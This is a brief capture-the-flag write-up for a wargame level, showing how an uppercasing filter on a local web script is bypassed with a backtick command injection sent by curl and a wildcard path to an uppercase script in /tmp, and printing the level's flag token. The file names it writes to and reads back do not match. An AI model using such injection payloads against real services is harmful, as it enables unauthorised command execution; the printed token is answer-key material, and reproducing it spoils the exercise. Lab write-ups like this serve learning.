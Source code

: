 # level12

- Our input is once again passed in a bash script so we can try to escape it

- Our input is "sanitized" so everything is capitalized we need to create a
    script to execute getflag but with the name in uppercase like `/tmp/SCRIPT`
    ```sh
    $ cat /tmp/SCRIPT
    #!/bin/bash
    getflag > /tmp/level11
    $ chmod +x /tmp/SCRIPT
    ```

- Now we can exploit it but we can't type any dir name in lowercase in replacement
    we can use the wilcard to call `/*/SCRIPT`
    ```sh
    curl 0:4646?x='`/*/SCRIPT`'
    ```

- `$ cat /tmp/lvl11`
    > Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

